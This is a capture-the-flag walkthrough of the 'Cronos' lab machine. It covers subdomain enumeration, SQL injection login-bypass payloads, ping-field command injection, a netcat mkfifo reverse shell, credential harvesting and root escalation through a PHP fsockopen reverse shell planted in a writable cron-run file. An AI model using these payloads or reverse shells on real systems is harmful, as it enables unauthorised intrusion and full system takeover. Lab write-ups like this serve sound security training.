 # Cronos - Medium

```sh
sudo vim /etc/hosts
# map cronos.htb

nmap -T4 -p- -A -Pn -v cronos.htb
```

* Open ports & services:

    * 22/tcp - ssh - OpenSSH 7.2p2 Ubuntu 4ubuntu2.1
    * 53/tcp - domain - ISC BIND 9.10.3-P4
    * 80/tcp - http - Apache httpd 2.4.18

* On port 80, the webpage has a title 'Cronos' and includes links to Laravel framework and its docs; we need to enumerate further:

    ```sh
    # directory scan
    feroxbuster -u http://cronos.htb -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,html,bak,bac,md,jpg,png,ps1,js,txt,json,docx,pdf,zip,cgi,sh,pl,aspx,sql,xml --extract-links --scan-limit 2 --filter-status 400,401,404,405,500 --silent

    # directory scan with other tool and other wordlist to make sure
    ffuf -u 'http://cronos.htb/FUZZ' -w /usr/share/wordlists/dirb/big.txt -e .php,.html,.bak,.bac,.md,.jpg,.png,.ps1,.js,.txt,.json,.docx,.pdf,.zip,.cgi,.sh,.pl,.aspx,.sql,.xml -s

    # check for any subdomains
    # first check without -fs to find size to be filtered
    ffuf -c -u 'http://cronos.htb' -H 'Host: FUZZ.cronos.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 25
    
    # add filter size
    ffuf -c -u 'http://cronos.htb' -H 'Host: FUZZ.cronos.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 25 -fs 11439 -s

    ffuf -c -u 'http://cronos.htb' -H 'Host: FUZZ.cronos.htb' -w /usr/share/seclists/Discovery/DNS/dns-Jhaddix.txt -t 25 -fs 11439 -s
    # try with different wordlists
    ```

* After trying subdomain enumeration with the ```dns-Jhaddix.txt``` wordlist, we get a few hits - 'alpblog.cronos.htb' and 'admin.cronos.htb' - we can map the subdomains in ```/etc/hosts``` and enumerate them further

* 'alpblog.cronos.htb' is just a default Apache landing page; nothing found in source code so it is likely that it is a false result of subdomain enumeration, but we can enumerate this in case the other subdomain does not give anything

* 'admin.cronos.htb' shows a login page with username & password fields - default creds like 'admin:admin' or 'admin:password' do not seem to work, so we would have to enumerate further:

    ```sh
    # directory scan
    feroxbuster -u http://admin.cronos.htb -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,html,bak,bac,md,jpg,png,ps1,js,txt,json,docx,pdf,zip,cgi,sh,pl,aspx,sql,xml --extract-links --scan-limit 2 --filter-status 400,401,404,405,500 --silent

    # check with another tool and wordlist
    ffuf -u 'http://admin.cronos.htb/FUZZ' -w /usr/share/wordlists/dirb/big.txt -e .php,.html,.bak,.bac,.md,.jpg,.png,.ps1,.js,.txt,.json,.docx,.pdf,.zip,.cgi,.sh,.pl,.aspx,.sql,.xml -s
    ```

* Directory scan gives us a few pages like 'config.php', 'logout.php', 'session.php' and 'welcome.php' - all of these are redirected to login page; using Burp Suite, we can intercept the requests to these pages and check for any clues

* Intercepting the request to 'welcome.php' shows the login session briefly - in the response (before redirection), we can see the title 'Net Tool v0.1', with options for 'traceroute' and 'ping' - but we get back to the login page after following redirection

* Before checking with bruteforce (as it takes more time), we can check for any injection attacks like SQLi:

    ```sh
    # intercept a login request to see how data is sent

    sqlmap -u 'http://admin.cronos.htb' --data='username=test&password=test' --level=5 --risk=3
    # check for SQLi
    # this works
    ```

* ```sqlmap``` gives us a few SQLi payloads that help us to login:

    * boolean-based blind: ```username=-2087' OR 7644=7644-- gkrN&password=test```
    * time-based blind: ```username=test' AND (SELECT 1400 FROM (SELECT(SLEEP(5)))MOjp)-- OLFu&password=test```

* Logging in gives us the page for 'Net Tool v0.1' as we checked earlier, and we can do traceroute or ping for any IP address in the input field

* The page source shows ```ping -c 1``` for the 'ping' utility - it is very likely that's the command being run in background, so we can test command injection with different characters like ```'```, ```"``` and ```;```

* Using payload ```8.8.8.8; id```, we manage to escape the ping command and inject 'id' to get output 'www-data' - so command injection works, and we can build on this to get a reverse shell

* After setting up a listener, using the payload ```8.8.8.8; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.12.33 4444 >/tmp/f``` gives us a reverse shell on port 4444:

    ```sh
    whoami
    # www-data

    which python3
    # we have this, we can use it to stabilise our shell

    python3 -c 'import pty;pty.spawn("/bin/bash")'

    export TERM=xterm
    # now Ctrl+Z to background shell

    stty raw -echo; fg
    # press Enter twice to enter stable reverse shell

    ls -la /home
    # we have user 'noulis'

    cat /home/user/noulis.txt
    # user flag

    # we can do basic enumeration with linpeas

    # on attacker
    python3 -m http.server

    # in reverse shell
    cd /tmp
    wget http://10.10.12.33:8000/linpeas.sh
    chmod +x linpeas.sh
    ./linpeas.sh
    ```

* From ```linpeas```, we get a few findings:

    * a cronjob is run by root every minute - ```php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1```
    * from the file ```/var/www/laravel/config/database.php```, we get the SQLite DB name 'forge', without a password
    * from the file ```/var/www/lararvel/.env```, we get APP_KEY value '+fUFGL45d1YZYlSTc0Sm71wPzJejQN/K6s9bHHihdYE=', DB database & username 'homestead', and password 'secret'
    * cleartext creds for DB are found - 'admin:kEjdbRigfBHUREiNSDs'

* We can attempt logging into ```MySQL``` DB:

    ```sh
    # in reverse shell
    mysql -u admin -p
    # use the password found for admin - it works

    show databases;
    # we have a DB 'admin'

    use admin;

    show tables;

    select * from users;
    ```

* From the only entry in the 'users' table, we get the username 'admin' and password '4f5fffa7b2340178a716e3832451e058' - the value is a MD5 hash (we can confirm this by using online hash identifiers)

* Using online hash cracking tools, this hash gives us the string '1327663704' - but this string does not work as a password for 'noulis' or 'root'

* Going back to the cronjob, it runs ```/var/www/laravel/artisan``` every minute as root:

    ```sh
    ls -la /var/www/laravel/artisan
    # www-data has write permissions
    # we can modify this program to get reverse shell

    # on attacker, setup another listener
    nc -nvlp 4445

    # in reverse shell
    vim /var/www/laravel/artisan
    # use PHP reverse shell code

    # we get reverse shell on our listener
    cat /root/root.txt
    # root flag
    ```

    ```php
    <?php
    $sock=fsockopen("10.10.12.33",4445);
    exec("/bin/sh -i <&3 >&3 2>&3");
    ?>
    ```
